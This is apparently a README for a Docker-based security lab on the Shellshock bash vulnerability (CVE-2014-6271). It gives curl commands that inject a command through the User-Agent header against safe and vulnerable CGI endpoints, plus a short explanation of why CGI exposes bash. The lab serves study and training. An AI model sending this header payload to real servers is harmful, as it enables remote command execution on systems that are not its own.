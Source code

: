 # 2. SHELLSHOCK

## Subtitle / what it does
Shellshock (CVE-2014-6271) is a vulnerability in bash shell and allows code execution when declaring new environment variable.

### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run in docker:
```
cd 2-shellshock
docker-compose build
docker-compose up -d
```

### Safe endpoint:
```
curl -H "User-Agent: () { foo; }; echo; /usr/bin/id" http://[Your IP]:8080/safe.cgi
```

### Vulnerable endpoint:
```
curl -H "User-Agent: () { foo; }; echo; /usr/bin/id" http://[Your IP]:8080/victim.cgi
```

![image](https://user-images.githubusercontent.com/31791455/140388921-a01d5ec8-6823-4448-af41-508a4f3a1b75.png)


### Explanation
CGI extensions utilize bash and are available remotely on web server.
As CGIs create environment variables from user-supplied data, malicious HTTP header might cause code execution.

### References and recommended reading
https://en.wikipedia.org/wiki/Common_Gateway_Interface
https://en.wikipedia.org/wiki/Shellshock_(software_bug)
https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf

### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/bash/shellshock
